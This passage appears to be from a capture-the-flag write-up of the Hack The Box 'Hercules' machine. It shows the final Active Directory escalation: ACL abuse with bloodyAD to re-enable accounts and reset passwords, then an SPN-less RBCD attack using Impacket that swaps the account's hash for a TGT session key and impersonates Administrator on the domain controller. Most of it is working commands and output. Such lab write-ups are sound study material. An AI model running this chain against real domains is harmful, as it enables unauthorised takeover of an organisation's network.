[+] IT Support has now GenericAll on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
Only after running the cleanup script we are able to do the enable of the IIS account. Due to cleanup scripts we also need to add our permissions over the Forest Migration OU again.
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' auditor
[+] auditor has now GenericAll on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb remove uac 'IIS_Administrator' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from IIS_Administrator's userAccountControl
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb set password IIS_Administrator 'Pwn3d_by_ACLs!'
[+] Password changed successfully!With the password changed, we can continue the attack chain and compromise IIS_Webserver$.

$ getTGT.py hercules.htb/IIS_Administrator:Pwn3d_by_ACLs!
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in IIS_Administrator.ccache
$ export KRB5CCNAME=IIS_Administrator.ccache
$ bloodyAD -k -d hercules.htb --host dc.hercules.htb set password 'IIS_Webserver$' 'Pwn3d_by_ACLs!'
[+] Password changed successfully!
$ getTGT.py hercules.htb/IIS_Webserver$:Pwn3d_by_ACLs!
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in IIS_Administrator.ccache
$ export KRB5CCNAME=IIS_Webserver\$.ccache
$ getST.py -u2u -impersonate Administrator -spn 'cifs/dc.hercules.htb' -k -no-pass 'hercules.htb'/'IIS_Webserver$'
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies
[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user IIS_Webserver$ or initial TGT not forwardableNext we need to perform an RBCD attack on the SPN-less user IIS_Webserver$. The technique is as follows:
- Obtain a TGT for the SPN-less user allowed to delegate to a target and retrieve the TGT session key.
- Change the user's password hash and set it to the TGT session key.
- Combine S4U2self and U2U so that the SPN-less user can obtain a service ticket to itself, on behalf of another (powerful) user, and then proceed to S4U2proxy to obtain a service ticket to the target the user can delegate to, on behalf of the other, more powerful, user.
- Pass the ticket and access the target, as the delegated other
First, we need to obtain a TGT using the account NT hash to retrieve the TGT session key.
$ iconv -f ASCII -t UTF-16LE <(printf 'Pwn3d_by_ACLs!') | openssl dgst -md4 -provider legacy
MD4(stdin)= b85458493b2354f14cde47b01ed69ab5
$ getTGT.py -hashes :b85458493b2354f14cde47b01ed69ab5 'hercules.htb/IIS_Webserver$' -dc-ip 10.10.11.91
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in IIS_Webserver$.ccache
$ describeTicket.py IIS_Webserver\$.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key : 53be5595e62fed2568632bef290d456bChange the user's password with the TGT session key.
$ changepasswd.py -newhashes :53be5595e62fed2568632bef290d456b 'hercules.htb'/'IIS_Webserver$':'Pwn3d_by_ACLs!'@dc.hercules.htb -k
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies
[*] Changing the password of hercules.htb\IIS_Webserver$
[*] Connecting to DCE/RPC as hercules.htb\IIS_Webserver$
[*] Password was changed successfully.
[!] User might need to change their password at next logon because we set hashes (unless password never expires is set).Finally, use the configured delegation to impersonate a user and request a service ticket for the desired service on the target machine:
$ getST.py -u2u -impersonate Administrator -spn 'cifs/dc.hercules.htb' -k -no-pass 'hercules.htb'/'IIS_Webserver$'
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies
[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccache
$ KRB5CCNAME=Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccache nxc smb DC.hercules.htb --use-kcache
SMB DC.hercules.htb 445 DC [*] x64 (name:DC) (domain:hercules.htb) (signing:True) (SMBv1:False)
SMB DC.hercules.htb 445 DC [+] hercules.htb\Administrator from ccache (Pwn3d!)Holy cow, road to Domain Admin was a real brainfuck. This was by far one of the hardest boxes I solved. GG.